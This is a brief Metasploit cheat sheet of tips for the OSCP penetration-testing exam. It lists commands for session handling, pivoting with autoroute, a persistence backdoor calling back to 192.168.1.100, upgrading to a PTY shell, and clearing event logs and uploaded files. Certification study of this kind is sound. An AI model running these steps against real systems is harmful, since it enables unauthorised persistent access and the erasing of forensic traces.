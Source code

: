 ## Tips for OSCP

1. **Use background jobs**
   ```
   exploit -j
   sessions -l
   sessions -i 1
   ```

2. **Auto-Route**
   ```
   run post/multi/manage/autoroute SUBNET=192.168.2.0/24
   ```

3. **Persistence**
   ```
   run persistence -X -i 5 -p 443 -r 192.168.1.100
   ```

4. **Meterpreter to Shell**
   ```
   shell
   python -c 'import pty; pty.spawn("/bin/bash")'
   ```

5. **Clean Up**
   ```
   clearev
   rm /path/to/uploaded/file
   ```

## Common Issues

- **Handler not working?**
  - Check firewall rules
  - Verify payload matches handler
  - Try different ports (443, 80, 53 often work)

- **Exploit failing?**
  - Check service version
  - Try different targets
  - Adjust payloads
  - Check for bad characters
